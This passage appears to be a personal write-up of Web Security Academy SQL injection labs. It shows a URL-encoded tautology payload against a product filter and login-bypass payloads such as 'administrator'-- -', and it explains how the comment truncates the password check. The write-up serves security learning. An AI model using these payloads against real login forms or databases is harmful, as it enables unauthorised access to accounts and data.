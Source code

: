 ```
https://0a71008003e2b89780d0585c00140016.web-security-academy.net/filter?category=Gifts%27%20OR%20%271%27%20=%20%271%27%20--%20-
```

I ended up URL encoding it. 

![](/assets/images/SQLi/Pasted%20image%2020250929135800.png)

The lab gets solved.

![](/assets/images/SQLi/Pasted%20image%2020250929135502.png)

### 2. SQL injection vulnerability allowing login bypass

Payloads that worked:

```
administrator' OR '1' = '1' -- -
```

```
administrator'-- -
```

Explanation:

I first tried to just put in a random password with username - `administrator`.

![](/assets/images/SQLi/Pasted%20image%2020250929140050.png)

If the query is anything like the one in Lab 1, we need to make it return `True`. Therefore, USERNAME with OR 1=1 returns `True`.

```
administrator' OR '1' = '1' -- -
```

This ends up working. In the hindsight, this is not because the query is returning `True` but instead it's because the password validation is getting broken/bypassed. 

![](/assets/images/SQLi/Pasted%20image%2020250929140138.png)

As per the solution, this is the payload that is supposed to work. 

```
administrator'-- -
```

The logic behind this is that Username is set to `Administrator` and the rest of the validation where the Password parameter is being checked in the backend DB.

So the query `SELECT * FROM DB WHERE USERNAME='Administrator' AND PASSWORD='password'` becomes - `SELECT * FROM DB WHERE USERNAME='Administrator'-- -' AND PASSWORD='password'` where the password validation gets subverted.

As we can see, even this works. 

![](/assets/images/SQLi/Pasted%20image%2020250929140531.png)
